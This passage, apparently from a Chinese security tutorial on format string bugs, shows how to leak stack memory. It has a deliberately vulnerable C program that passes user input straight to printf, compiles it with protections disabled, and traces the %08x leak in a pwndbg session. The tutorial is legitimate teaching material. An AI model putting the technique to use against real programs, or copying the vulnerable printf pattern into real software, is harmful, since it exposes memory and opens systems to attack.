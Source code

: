 ### 泄露内存
#### 泄露栈内存
例如
```c
#include <stdio.h>

int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```
编译
```bash
gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```
通过gdb来调试程序，在第一个printf处下断点
```c
pwndbg> b printf
Breakpoint 1 at 0x8048330
```
运行程序，输入%08x.%08x.%08x
```c
pwndbg> r
Starting program: /home/gnq/test/leakmemory 
%08x.%08x.%08x
```
查看栈空间
```c
pwndbg> stack 10
00:0000│ esp  0xffffceec —▸ 0x80484bf (main+84) ◂— add    esp, 0x20
01:0004│      0xffffcef0 —▸ 0x8048563 ◂— and    eax, 0x2e783830 /* '%08x.%08x.%08x.%s\n' */
02:0008│      0xffffcef4 ◂— 0x1
03:000c│      0xffffcef8 ◂— 0x22222222 ('""""')
04:0010│      0xffffcefc ◂— 0xffffffff
05:0014│      0xffffcf00 —▸ 0xffffcf10 ◂— '%08x.%08x.%08x'
... ↓
07:001c│      0xffffcf08 ◂— 0xc2
08:0020│      0xffffcf0c —▸ 0xf7e9379b (handle_intel+107) ◂— add    esp, 0x10
09:0024│ eax  0xffffcf10 ◂— '%08x.%08x.%08x'
```